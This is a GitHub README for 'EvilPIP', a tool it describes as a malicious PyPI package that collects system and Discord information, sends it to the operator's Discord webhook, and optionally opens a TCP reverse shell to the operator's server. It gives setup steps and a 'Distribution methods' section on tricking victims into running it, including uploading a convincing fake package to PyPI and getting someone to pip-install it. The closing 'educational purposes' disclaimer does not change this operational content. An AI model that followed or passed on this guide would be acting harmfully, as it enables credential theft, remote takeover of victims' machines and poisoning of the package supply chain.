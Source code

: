 # EvilPIP
**EvilPIP is a Malicious PyPI Module/Malware with Information Logging and a TCP Reverse Shell**

**What this does:**
- Takes advantage of the fact that python modules run with administrative privileges
- When executed, will gather system and discord related information from the machine.
- If the revshell option is enabled, the machine will connect to your server.

# Usage
Edit the ***VARIABLES*** class with your information
```py
In '__main__.py' only {
    set 'webhook' to your Discord webhook
    set 'REVSHELL' to False if you don't want the reverse shell
    set 'REVSHELL' to True if you want the reverse shell
}
In '__main__.py' and 'server/server.py' {
    Set 'serverip' to your host/VPS IP for the victim to connect to
    Set 'port' to the port you want the victim to connect to (optional)
    Set 'buffer' to the buffer size (in bytes) that you want to send (optional)
}
```
If **REVSHELL** is enabled / you want the victim to connect to the reverse shell -

    If needed, port forward on the port you had chosen (look up a tutorial for your router/VPS)

**When these steps are completed to your liking, you can move onto the distribution process**

# Distribution methods

**If you set REVSHELL to True: Open 'server/server/server.py' on your pc/server to listen for a connection**

**Method 1: Sending file directly (only works if they have python + the dependencies)**
- Rename and encrypt (optional) the '__ main __.py' file
- Send the file to someone directly and wait for a connection
- When opened, evilpip should be executed

**Method 2: PyPi Package**
- Upload the package to PyPi and make it look convincing (requires experience)
- Get someone to run these commands (evilpip = your pypi package name):

      pip install evilpip
      python -m evilpip

# Showcase

**Information sent to Discord webhook and reverse shell connected:**

![image](https://user-images.githubusercontent.com/75194878/166561205-b6f84821-f308-4418-a9e3-3f558d8b7026.png)
![image](https://user-images.githubusercontent.com/75194878/166560928-2075231d-32a0-47ac-a2d8-71d0f4853118.png)
![image](https://user-images.githubusercontent.com/75194878/166560636-025771c9-5325-4e10-b985-b3a10bcd4727.png)

# Final Notes
This project was made for educational purposes only, to demonstrate -
- That you shouldn't trust all PyPi packages as there can be malicious code in them
- How easy it is to execute said malicious code, and that you don't need to download anything online
- How the logger and reverse shell were made

To support this repository, star it, and to contribute to it, please fork it with any useful additions.
